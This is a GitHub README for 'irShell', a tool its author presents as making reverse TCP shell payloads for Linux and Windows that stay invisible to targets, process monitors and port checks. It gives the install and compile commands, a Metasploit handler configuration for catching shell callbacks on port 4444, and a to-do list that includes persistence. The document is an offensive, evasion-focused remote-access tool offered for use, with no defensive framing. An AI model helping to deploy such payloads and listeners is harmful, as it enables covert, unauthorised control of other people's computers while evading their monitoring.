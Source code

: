 # irShell
💯% Invisible Reverse TCP Shell Payloads for Linux/Windows 🥷

## About:
What I believe to be an original and effective method for creating reverse TCP payloads that are 100% invisible not only to the target but the target's resource/process monitors as well as aports used appear closed. Simple MSFconsole handlers/listeners are then used for callbacks.


## Requirements:

SHC 

```
sudo apt install -y shc
```

Bash

```
sudo apt install -y bash
```
GCC

```
sudo apt install -y gcc
```




## Installation:

```
git clone https://github.com/MBHudson/irShell.git && cd irShell && sudo gcc irShell.c -o irShell && sudo chmod +x irShell
```

## Usage:

```
sudo ./irShell
```

## MSFconsole:

```
set exploit/multi/handler
set PAYLOAD linux/x64/shell_reverse_tcp
set LHOST 0.0.0.0
set LPORT 4444
run
```

## TODO

- [ ] Persistence without reboot
- [ ] EXE and Shell formats
- [ ] All-in-One built-in dependency installation 
